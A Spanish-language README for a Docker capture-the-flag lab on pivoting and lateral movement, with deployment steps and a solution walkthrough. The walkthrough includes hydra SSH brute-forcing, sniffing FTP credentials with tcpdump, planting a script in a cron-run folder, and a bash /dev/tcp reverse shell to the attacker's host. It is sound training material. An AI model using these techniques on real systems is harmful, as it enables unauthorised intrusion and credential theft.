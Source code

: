 # FTPivot

- [1. Descripción General](#1-descripción-general)
- [2. Instalación y Despliegue](#2-instalación-y-despliegue)
- [2.1. Despliegue automático](#21-despliegue-automático)
- [2.2. Despliegue manual](#22-despliegue-manual)
- [3. Descripción de laboratorio](#3-descripción-de-laboratorio)
- [4. Solución del Laboratorio](#4-solución-del-laboratorio)
- [4.1. Cracking de Credenciales](#41-cracking-de-credenciales)
- [4.2. Búsqueda de la flag](#42-búsqueda-de-la-flag)
- [4.3. Recolección de información](#43-recolección-de-información)
- [4.4. Monitoreo de Tráfico FTP](#44-monitoreo-de-tráfico-ftp)
- [4.5. Acceso FTP y Manipulación de Scripts](#45-acceso-ftp-y-manipulación-de-scripts)
- [4.6. SSH y Descubrimiento de PassPhrase](#46-ssh-y-descubrimiento-de-passphrase)
- [4.7. Conversión Hexadecimal y Descubrimiento de la Flag](#47-conversión-hexadecimal-y-descubrimiento-de-la-flag)

## 1. Descripción General

Este laboratorio es una simulación de un entorno de red diseñado para practicar técnicas de análisis y penetración de sistemas. Utiliza Docker para simular dos servidores diferentes, cada uno con configuraciones específicas destinadas a desafiar al usuario a utilizar una variedad de herramientas y técnicas de ciberseguridad.

## 2. Instalación y Despliegue

Antes del despliegue de nuestro laboratorio será necesario craer una red en Docker de tipo _bridge_:

```bash
docker network create ftpivot
```

### 2.1. Despliegue automático

Para desplegar el laboratorio bastará con ejecutar:

```bash
docker run -d --name ftpivot1 --network ftpivot -p [HostPort]:22 kradbyte/ftpivot:pivot1
docker run -d --name ftpivot2 --network ftpivot kradbyte/ftpivot:pivot2
```

No olvides reemplazar `HostPort` por el puerto de tu host por donde expondrás el servicio SSH.

### 2.2. Despliegue manual

Para construir tus propias imágenes deberás clonar el repositorio y construir las imágenes:

```bash
git clone https://github.com/kradbyte/elemental-labs.git
docker build -t kradbyte/ftpivot:pivot1 -f elementals-labs/5-FTPivot/Dockerfile.a elementals-labs/5-FTPivot
docker build -t kradbyte/ftpivot:pivot2 -f elementals-labs/5-FTPivot/Dockerfile.b elementals-labs/5-FTPivot
```

Luego podremos desplegar los contenedores:

```bash
docker run -d --name ftpivot1 --network ftpivot -p [HostPort]:22 kradbyte/ftpivot:pivot1
docker run -d --name ftpivot2 --network ftpivot kradbyte/ftpivot:pivot2
```

No olvides reemplazar `HostPort` por el puerto de tu host por donde expondrás el servicio SSH.

> **Nota**: Se recomienda no cambiar el nombre de los contenedores, dado que para las conexiones internas se utilizan estos nombres para la resolución de DNS. En caso se quiera cambiar el nombre de los contenedores se tendrán que cambiar los nombres en los archivos de configuración de las máquinas.

## 3. Descripción de laboratorio

En este laboratorio, deberás infiltrarte en un servidor para capturar una flag. Utilizarás una combinación de habilidades adquiridas previamente, además de introducirte en el concepto de movimiento lateral.

**Concepts**
Pivoteo: Exploración de dispositivos, servicios o redes internas que no son accesibles directamente desde la red pública.
Movimiento Lateral: Una vez se tiene acceso a un dispositivo, consiste en utilizarlo para ganar acceso a otros dispositivos dentro de la misma red.

**Steps**
- Gana acceso al servidor con SSH.
- Busca información relevante sobre posibles conexiones a otros hosts dentro de la red interna.
- Monitorea el tráfico de red y gana acceso al nuevo host (reverse shell).
- Consigue la llave para la nueva conexión.
- Con el nuevo usuario compara las flags que encontraste dentro del host y descifra la flag del laboratorio.

**Tools**
Nmap, NetCat, scripting bash, tcpdump, WireShark, SSH, curl, FTP.

**Grants**
- Verificar logs de lo que se esté trabajando o cualquier carpeta/archivo que contenga lo que se esté trabajando (SSH, la flag, FTP, etc.).
- Verificar tareas programadas.
- Usuario para SSH “guest”.

**Resultado**
Al final de este laboratorio, deberás ser capaz de entender y ejecutar un ataque de movimiento lateral dentro de una red simulada, utilizando herramientas y técnicas comunes en la ciberseguridad. La flag capturada demostrará tu éxito en el uso combinado de estos métodos y herramientas.

## 4. Solución del Laboratorio

### 4.1. Cracking de Credenciales

Primero deberemos crackear las credenciales de la SSH para acceder al primer host. La descripción nos proporciona el usuario "guest", por lo que deberemos descubrir la contraseña. Podremos utilizar alguna herramienta como _hydra_:

```bash
hydra -L guest -p /ruta/a/tu/diccionario ssh://ServerIP:ServerPort
```

No olvides reemplazar `ServerIP` y `ServerPort` por la IP del servidor donde está montado el servidor y el puerto por el que corre el servicio, en caso de haberse configurado para exponer SSH en otro puerto distinto al 22.

### 4.2. Búsqueda de la flag

Una vez dentro del servidor podremos buscar la flag con algún comando como los siguientes:

```bash
find / -name \*flag\* -type d 2>/dev/null
find / -name \*flag\* -type f 2>/dev/null
```

Al encontrar la flag nos daremos cuenta que hay dos flag, uno "old" y un "new", por lo que deberemos comparar las flag, pero una flag solo se pude leer por otro usuario, por lo que deberemos buscar alguna forma de conseguir el acceso al otro usuario.

### 4.3. Recolección de información

Al buscar dentro del servidor y llegar a las tareas cron, observaremos un par de tareas que se ejecutan por el usuario que necesitamos, así que podremos intentar capturar las peticiones para ver si podemos encontrar algo en el tráfico de red.

### 4.4. Monitoreo de Tráfico FTP

Para monitorear el tráfico utilizaremos tcpdump:

```bash
tcpdump -i eth0 -w trafic.pcap
```

Una vez tengamos capturado el tráfico podremos compartirlo con nuestro host principal para analizarlo con WireShark. Se recomienda montar un servidor http simple con capacidad PUT/POST.
Una vez analizado el tráfico y filtramos por FTP encontraremos las credenciales y la IP de la otra máquina, por lo que podríamos conectarnos por FTP y ver qué podemos encontrar en la otra máquina.

### 4.5. Acceso FTP y Manipulación de Scripts

Cuando hayamos obtenido las credenciales del FTP en el paso anterior podremos conectarnos al servicio. Recuerda conectarte por FTP desde el servidor, dado que este servicio corre en la red interna del servidor y no estará accesible desde host principal.
Al ingresar y listar lo que hay en el directario donde estamos notaremos que hay un script que ejecuta scripts en una carpeta, por lo que podremos crear nuestro propio script y ganar acceso a la máquina. Se recomienda hacer un script para una reverse shell, pero se es libre de optar por el camino que se gusta, como trabajar con la forward shell, ejecución de binarios externos trasferidos por FTP, etc.

```bash
#!/bin/bash
bash >& /dev/tcp/ClientIP/ListenPort 0>&1
```

### 4.6. SSH y Descubrimiento de PassPhrase

Al buscar dentro de la máquina en el historial de comandos en el archivo `.bash_history`, encontraremos un comando para conexión por SSH al usuario que necesitamos para leer la otra flag y al buscar la ruta de la llave, podremos conectarnos también al nuevo usuario encontrado. El problema es que si intentamos conectarnos nos pedirá una PasPhrase que no tenemos y deberemos buscar.
Si buscamos en las tareas programadas del usuario encontraremos la PassPhrase que buscamos:

```bash
cat /home/user/.bash_history
crontab -l
```

### 4.7. Conversión Hexadecimal y Descubrimiento de la Flag

Cuando nos hayamos conectado por SSH al usuario que necesitábamos podremos leer la otra flag, ahora bastará con darle permisos de lectura a todos los usuarios para que podamos comparar las dos flag. La diferencia resultante será un archivo ".txt" en hexadecimal, por lo que bastará con convertir el texto hexadecimal a un archivo legible y habremos resuelto el laboratorio.
